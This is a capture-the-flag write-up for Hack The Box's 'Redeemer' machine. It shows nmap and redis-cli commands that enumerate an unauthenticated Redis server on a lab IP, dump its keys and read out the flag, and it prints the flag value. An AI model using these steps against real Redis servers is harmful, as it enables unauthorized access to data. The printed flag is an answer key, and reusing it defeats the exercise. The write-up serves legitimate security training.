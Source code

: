 # HTB “Redeemer” Redis Exploit Write‑Up

## 1. Introduction
**Objective:** Exploit a misconfigured Redis server on Hack The Box’s “Redeemer” machine to retrieve the flag.  
**Author:** keyfive5  
**Date:** 2025‑04‑19

## 2. Lab Environment
- **Attacker VM:** Kali Linux (via HTB VPN)  
- **Target IP:** 10.129.136.194  
- **Tools:** nmap v7.95, redis-cli, Bash shell  

## 3. Enumeration

### 3.1 Nmap Scan
```bash
nmap -p 6379 -sV 10.129.136.194 -oN nmap-6379.txt
```
**Result:**
```text
6379/tcp open  redis  Redis key-value store 5.0.7
```

### 3.2 Redis INFO
```bash
redis-cli -h 10.129.136.194 info
```
**Keyspace:**
```text
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

## 4. Exploitation

### 4.1 List Keys & Retrieve Flag
```bash
redis-cli -h 10.129.136.194
> select 0
> keys *
1) "flag"
2) "temp"
3) "stor"
4) "numb"
> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

## 5. Automation Script
See `scripts/enum-redis.sh` for full automation. Run:
```bash
bash scripts/enum-redis.sh 10.129.136.194
```

## 6. Results
- **Flag:** 03e1d2b376c37ab3f5319922053953eb

## 7. Lessons Learned
- Public Redis often allows unauthenticated access by default.  
- Use `info` and `keys *` to enumerate data.  
- Automate repetitive tasks with Bash scripts.

## 8. References
- Hack The Box Academy – Redis Modules  
- `man redis-cli`  

